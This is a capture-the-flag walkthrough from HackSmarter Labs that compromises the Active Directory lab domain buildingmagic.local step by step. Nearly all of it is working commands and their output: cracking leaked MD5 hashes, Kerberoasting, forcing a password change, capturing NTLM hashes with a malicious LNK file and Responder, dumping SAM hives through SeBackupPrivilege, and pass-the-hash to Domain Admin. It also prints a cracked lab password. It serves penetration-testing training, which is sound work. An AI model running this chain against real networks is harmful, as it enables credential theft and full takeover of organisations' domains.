As a penetration tester on the Hack Smarter Red Team, the objective is to achieve a full compromise of the Active Directory environment.
Starting Point: A prior enumeration phase yielded a leaked database containing usernames and hashed passwords.
Goal: Leverage the compromised credentials to escalate privileges, move laterally through the Active Directory, and ultimately achieve complete domain compromise.
Add the following entries to /etc/hosts:
<TARGET_IP> buildingmagic.local dc01.buildingmagic.localThe leaked database contains the following user information:
id username full_name role password
1 r.widdleton Ron Widdleton Intern Builder c4a21c4d438819d73d24851e7966229c
2 n.bottomsworth Neville Bottomsworth Planner 61ee643c5043eadbcdc6c9d1e3ebd298
3 l.layman Luna Layman Planner 8960516f904051176cc5ef67869de88f
4 c.smith Chen Smith Builder bbd151e24516a48790b2cd5845e7f148
5 d.thomas Dean Thomas Builder 4d14ff3e264f6a9891aa6cea1cfa17cb
6 s.winnigan Samuel Winnigan HR Manager 078576a0569f4e0b758aedf650cb6d9a
7 p.jackson Parvati Jackson Shift Lead eada74b2fa7f5e142ac412d767831b54
8 b.builder Bob Builder Electrician dd4137bab3b52b55f99f18b7cd595448
9 t.ren Theodore Ren Safety Officer bfaf794a81438488e57ee3954c27cd75
10 e.macmillan Ernest Macmillan Surveyor 47d23284395f618bea1959e710bc68efI extracted just the hashes from the leaked data to check against CrackStation:
$ awk '{print $NF}' leak_data
CrackStation cracked two hashes:
bfaf794a81438488e57ee3954c27cd75 -> [REDACTED] (t.ren)c4a21c4d438819d73d24851e7966229c -> [REDACTED] (r.widdleton)For hashes that CrackStation missed, I used hashcat with rockyou.txt:
$ hashcat -m 0 hash /usr/share/wordlists/rockyou.txt --show
[REDACTED]:[REDACTED]-m flag in hashcat specifies the hash type. Mode 0 is for raw MD5 hashes. The --show flag displays already-cracked hashes from hashcat's potfile.
t.ren:[REDACTED] and r.widdleton:[REDACTED]
I validated the credentials using NetExec. Only r.widdleton had valid access:
$ nxc smb 10.1.167.230 -u r.widdleton -p [REDACTED]
SMB 10.1.167.230 445 DC01 [+] BUILDINGMAGIC.LOCAL\r.widdleton:[REDACTED]
[+] indicates successful authentication.
Using BloodHound, I discovered a Kerberoastable user account: r.haggard.

I used NetExec to perform the Kerberoasting attack:
$ nxc ldap 10.1.167.230 -u r.widdleton -p [REDACTED] --kerberoast output.txt
I cracked the Kerberos TGS hash using hashcat:
$ hashcat -m 13100 tgs_hash.txt /usr/share/wordlists/rockyou.txt
$krb5tgs$23$*r.haggard$BUILDINGMAGIC.LOCAL$...:rubeushagrid13100 is for Kerberos 5 TGS-REP etype 23 (RC4) hashes. These are the hashes obtained from Kerberoasting attacks.
r.haggard:rubeushagrid
Validated access:
$ nxc ldap 10.1.167.230 -u r.haggard -p rubeushagrid
LDAP 10.1.167.230 389 DC01 [+] BUILDINGMAGIC.LOCAL\r.haggard:rubeushagridBloodHound revealed that r.haggard has the ForceChangePassword permission over h.potch:

I used net rpc to change h.potch's password:
$ net rpc password 'h.potch' 'Zerotrace123!' -U 'BUILDINGMAGIC.LOCAL'/'r.haggard'%'rubeushagrid' -S DC01.BUILDINGMAGIC.LOCALValidated the new credentials:
$ nxc smb 10.1.167.230 -u h.potch -p 'Zerotrace123!'
SMB 10.1.167.230 445 DC01 [+] BUILDINGMAGIC.LOCAL\h.potch:[REDACTED]h.potch:[REDACTED]
I discovered that h.potch has read/write access to a file share. I used this to capture NTLM hashes through a malicious LNK file.
I generated malicious files using ntlm_theft:
$ python3 ntlm_theft.py -g modern -s 10.200.26.206 -f meeting
Created: meeting/meeting.lnk (BROWSE TO FOLDER)
Created: meeting/meeting-(url).url (BROWSE TO FOLDER)
...I uploaded the .lnk file to the file share:
$ smbclient //10.1.167.230/File-Share -U h.potch
Password for [WORKGROUP\h.potch]:
smb: \> put meeting.lnk
putting file meeting.lnk as \meeting.lnk (5.1 kB/s) (average 5.1 kB/s)I started Responder to capture the hash:
$ sudo responder -I tun0 -v-I flag specifies the network interface, and -v enables verbose output.

A user browsed to the share, and I captured their NTLMv2 hash:
H.GRANGON::BUILDINGMAGIC:a746324b2edec74a:[REDACTED]:...$ hashcat -m 5600 ntlmv2_hash.txt /usr/share/wordlists/rockyou.txt
H.GRANGON::BUILDINGMAGIC:...:[REDACTED]5600 is for NTLMv2 hashes (NetNTLMv2). These are network authentication hashes captured during NTLM relay or theft attacks, different from the NT hashes stored in SAM/NTDS.
h.grangon:[REDACTED]

BloodHound showed that h.grangon is a member of the Remote Management Users group:

I connected via Evil-WinRM:
$ evil-winrm -i 10.1.167.230 -u 'h.grangon' -p '[REDACTED]'
Evil-WinRM shell v3.7
*Evil-WinRM* PS C:\Users\h.grangon\Documents>*Evil-WinRM* PS C:\Users\h.grangon\Documents> type ..\Desktop\user.txtThe user flag is located at C:\Users\h.grangon\Desktop\user.txt.
Checking privileges revealed SeBackupPrivilege:
*Evil-WinRM* PS C:\Users\h.grangon> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeBackupPrivilege Back up files and directories Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set EnabledI extracted the SAM and SYSTEM hives:
*Evil-WinRM* PS C:\Users\h.grangon\Desktop> reg.exe save hklm\sam C:\Users\h.grangon\Desktop\sam.save
The operation completed successfully.
*Evil-WinRM* PS C:\Users\h.grangon\Desktop> reg.exe save hklm\system C:\Users\h.grangon\Desktop\system.save
The operation completed successfully.I downloaded the files to my attack machine:
*Evil-WinRM* PS C:\Users\h.grangon\Desktop> download sam.save
Info: Download successful!
*Evil-WinRM* PS C:\Users\h.grangon\Desktop> download system.save
Info: Download successful!Using secretsdump.py from Impacket, I extracted the local account hashes:
$ secretsdump.py -system system.save -sam sam.save LOCAL
[*] Target system bootKey: 0x[REDACTED]
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:[REDACTED]:[REDACTED]:::
Guest:501:[REDACTED]:[REDACTED]:::
DefaultAccount:503:[REDACTED]:[REDACTED]:::LOCAL parameter indicates offline extraction from dumped files.
I enumerated domain users:
$ nxc smb 10.1.167.230 -u 'h.grangon' -p '[REDACTED]' --users
SMB 10.1.167.230 445 DC01 Administrator
SMB 10.1.167.230 445 DC01 h.potch
SMB 10.1.167.230 445 DC01 r.widdleton
SMB 10.1.167.230 445 DC01 r.haggard
SMB 10.1.167.230 445 DC01 h.grangon
SMB 10.1.167.230 445 DC01 a.flatchI created a user list and performed a pass-the-hash attack:
$ nxc smb 10.1.167.230 -u user.list -H [REDACTED] --continue-on-success
SMB 10.1.167.230 445 DC01 [+] BUILDINGMAGIC.LOCAL\a.flatch:[REDACTED]
The local Administrator hash worked for the domain user a.flatch, indicating password reuse between the local Administrator account and this domain user.

BloodHound confirmed that a.flatch is a member of the Domain Admins group:

I connected as a.flatch using Evil-WinRM with the hash:
$ evil-winrm -u a.flatch -H [REDACTED] -i 10.1.167.230
*Evil-WinRM* PS C:\Users\a.flatch\Documents> type C:\Users\Administrator\Desktop\root.txt
9557e6Leaked DB -> r.widdleton (password crack)
|
v
Kerberoasting -> r.haggard
|
v
ForceChangePassword -> h.potch
|
v
NTLM Theft via LNK -> h.grangon (Remote Management Users)
|
v
SeBackupPrivilege -> Extract SAM hashes
|
v
Pass-the-Hash -> a.flatch (Domain Admin)
|
v
Domain Compromise| Username | Password/Hash | Method |
|---|---|---|
| r.widdleton | [REDACTED] |
MD5 crack |
| t.ren | [REDACTED] |
MD5 crack (not valid for domain) |
| r.haggard | rubeushagrid |
Kerberoasting |
| h.potch | [REDACTED] |
ForceChangePassword abuse |
| h.grangon | [REDACTED] |
NTLM theft + NTLMv2 crack |
| a.flatch | [REDACTED] |
SAM dump + password reuse |
Walkthrough by Zerotrace | HackSmarter Labs